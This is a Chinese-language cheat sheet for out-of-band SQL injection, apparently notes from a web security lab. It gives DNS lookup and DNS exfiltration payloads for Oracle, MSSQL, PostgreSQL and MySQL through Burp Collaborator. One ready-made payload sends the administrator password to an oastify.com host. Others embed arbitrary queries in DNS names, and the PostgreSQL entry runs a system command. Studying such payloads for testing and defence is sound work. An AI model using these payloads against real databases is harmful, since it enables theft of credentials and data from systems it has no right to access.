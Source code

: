 BurpSuite 打开 Burp 中的Burp Collaborator client
生成DNS 点击Copy to clipboard 复制域名

#### 构造DNS lookup语句

*备注*
甲骨文	
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?> < !DOCTYPE root [ < ! ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/" > %remote; ] >'),'/l') FROM dual

以下技术适用于完全修补的 Oracle 安装，但需要提升权限：
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

微软	
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	以下技术仅适用于 Windows：
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

#### 带有数据泄露的 DNS 查找 

构造语句
>'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.604dmwveewo3kfsvv5aqbj3b72du1j.oastify.com/"> %remote;]>'),'/l') FROM dual)--

*备注*
**甲骨文** 		
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual	
**微软** 		
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
**PostgreSQL** 	
create OR replace function f() returns void as &#36;&#36;
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
&#36;&#36;language plpgsql security definer;
SELECT f();
**MySQL**
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

## 防止SQL注入
